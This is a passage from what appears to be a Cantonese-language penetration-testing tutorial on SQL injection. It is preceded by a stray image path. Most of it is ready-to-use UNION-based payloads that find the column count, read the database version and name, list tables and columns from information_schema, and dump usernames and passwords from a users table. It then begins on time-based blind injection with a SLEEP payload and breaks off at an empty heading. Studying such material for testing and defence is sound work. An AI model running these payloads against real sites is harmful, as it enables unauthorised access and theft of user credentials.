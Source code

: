     （如果係 3 個欄位）
* 如果成功，頁面會顯示數字 `1`、`2`、`3` 喺輸出位置。
*   如果失敗，就繼續嘗試 4 個欄位：

    ```
    ' UNION SELECT 1,2,3,4-- -
    ```
* 知道有幾多個欄位同埋係邊個位置會顯示內容後，就可以用 `@@version`、`database()` 或 `user()` 代替其中一個位置嚟爆資料：

#### ✅ 3️⃣ **使用** 爆資料 **測試**

1\. 輸出系統信息：

```swift
' UNION SELECT 1,@@version,3-- -
```

2.知道可以讀資料後，開始讀 database name：

```swift
' UNION SELECT 1,database(),3-- -
```

2.然後列出所有 table：

```swift
' UNION SELECT 1,group_concat(table_name),3 FROM information_schema.tables WHERE table_schema=database()-- -
```

2.再列欄位：

```swift
' UNION SELECT 1,group_concat(column_name),3 FROM information_schema.columns WHERE table_name='users'-- -
```

3.最後拉出敏感資料：

```swift
' UNION SELECT 1,group_concat(username,0x3a,password),3 FROM users-- -
```

## <mark style="color:red;">5. Time-based Blind SQLi</mark>

#### 1. 發現盲注漏洞

1️⃣ 找輸入點（通常係登入表單、搜尋框、GET / POST 參數）。\
2️⃣ 測試：

```
' AND SLEEP(3)-- -
```

👉 如果 response 慢 3 秒或以上，就確認係 Time-based Blind SQLi。

***

#### 2. 確認注入上下文
